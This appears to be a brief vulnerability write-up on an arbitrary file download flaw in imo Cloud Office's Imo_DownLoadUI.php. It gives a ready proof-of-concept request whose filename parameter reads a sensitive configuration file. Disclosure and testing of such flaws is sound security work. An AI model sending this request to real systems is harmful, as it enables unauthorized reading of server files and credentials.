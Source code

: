 # imo cloud office Imo_DownLoadUI.php any file download vulnerability

## Vulnerability Description

imo cloud office Because the filename parameter of /file/Placard/upload/Imo_DownLoadUI.php page is not filtered strictly, system sensitive files can be read.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">imo Cloud Office</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645878070559-eaed5393-f82d-4b08-8b95-54e91e5ceae0-20220313162942240.png)

Verify POC

```javascript
/file/Placard/upload/Imo_DownLoadUI.php?cid=1&uid=1&type=1&filename=/OpenPlatform/config/kdBind.php
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645878129060-d2500f94-aad9-48fd-9202-9b618cc0f886.png)